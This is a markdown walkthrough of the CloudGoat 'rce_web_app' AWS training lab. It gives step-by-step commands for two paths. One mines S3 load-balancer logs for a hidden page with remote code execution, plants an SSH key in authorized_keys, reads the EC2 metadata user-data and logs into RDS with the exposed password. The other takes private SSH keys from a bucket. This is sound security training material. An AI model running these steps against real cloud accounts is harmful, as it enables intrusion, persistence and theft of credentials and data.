 # Remote Code Execution Web Application
Starting as the IAM user Lara, the attacker explores a Load Balancer and S3 bucket for clues to vulnerabilities, leading to an RCE exploit on a vulnerable web app which exposes confidential files and culminates in access to the scenario’s goal: a highly-secured RDS database instance.

Alternatively, the attacker may start as the IAM user McDuck and enumerate S3 buckets, eventually leading to SSH keys which grant direct access to the EC2 server and the database beyond.

Goal: Find a secret stored in the RDS database.

# Walkthrough

## Lara

### Login and list s3 buckets
```
aws configure --profile lara

aws s3 ls --profile lara
Found bucket cg-logs-s3-bucket-rce-web-app-cgid6x7jlbqy5x 
```

### Search through logs to find admin URL
```
aws s3 ls s3://cg-logs-s3-bucket-rce-web-app-cgid6x7jlbqy5x --recursive --profile lara

aws s3 cp s3://cg-logs-s3-bucket-rce-web-app-cgid6x7jlbqy5x/cg-lb-logs/AWSLogs/672021671131/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile file

Found mkja1xijqf0abo1h9glg.html secret page
```

### Search for right URL 
```
aws elbv2 describe-load-balancers --profile lara
Get dns name: cg-lb-rce-web-app-cgid6x7jlbqy5x-1607770352.us-east-1.elb.amazonaws.com

http://cg-lb-rce-web-app-cgid6x7jlbqy5x-1607770352.us-east-1.elb.amazonaws.com/mkja1xijqf0abo1h9glg.html 

Found RCE vulnerbility
```

### Login into ec2 instance
```
In the Vulnerable Web Page
ssh-keygen -t ed25519 

Get public key 

Add public key to authorized keys
echo "ssh-ed25519 ..." >> /home/ubuntu/.ssh/authorized_keys

Get ip of ec2 instance
curl ifconfig.me

In your local desktop
ssh -i id_ed25519 ubuntu@54.92.227.80

```

### Option 1: Query metadata service and get rds credentials
```
In the web browser of vulnerable page: curl http://169.254.169.254/latest/user-data

In the remote desktop: psql postgresql://cgadmin:Purplepwny2029@cg-rds-instance-rce-web-app-cgid6x7jlbqy5x.cgsyel6spw2r.us-east-1.rds.amazonaws.com:5432/cloudgoat

```

### Option 2: Use ec2 shell 

```
In the remote desktop

Install AWS CLI
sudo apt-get install awscli

List s3 buckets 
aws s3 ls 
Found secret bucket: cg-secret-s3-bucket-rce-web-app-cgid6x7jlbqy5x
aws s3 ls s3://cg-secret-s3-bucket-rce-web-app-cgid6x7jlbqy5x --recursive
Found db.txt and DB name: cloudgoat, Username: cgadmin, Password: Purplepwny2029

List rds instances for endpoint
aws rds describe-db-instances --region us-east-1

Login to the psql
psql postgresql://cgadmin:Purplepwny2029@cg-rds-instance-rce-web-app-cgid6x7jlbqy5x.cgsyel6spw2r.us-east-1.rds.amazonaws.com:5432/cloudgoat

Retrieve secret
SELECT * from sensitive_information;
```


## McDuck

### Login and list items in s3
```
aws configure --profile mcduck

aws s3 ls --profile mcduck
Found bucket cg-keystore-s3-bucket-rce-web-app-cgid6x7jlbqy5x

aws s3 ls s3://cg-keystore-s3-bucket-rce-web-app-cgid6x7jlbqy5x --recursive --profile mcduck
Found cloudgoat and cloudgoat.pub
```

### Login to instance via the ssh keys
```
Save the keys
aws s3 cp s3://cg-keystore-s3-bucket-rce-web-app-cgid6x7jlbqy5x/cloudgoat.pub ./ --profile mcduck
aws s3 cp s3://cg-keystore-s3-bucket-rce-web-app-cgid6x7jlbqy5x/cloudgoat ./ --profile mcduck

chmod 400 cloudgoat

Follow the steps above to get the secret
```

# References
https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/rce_web_app/README.md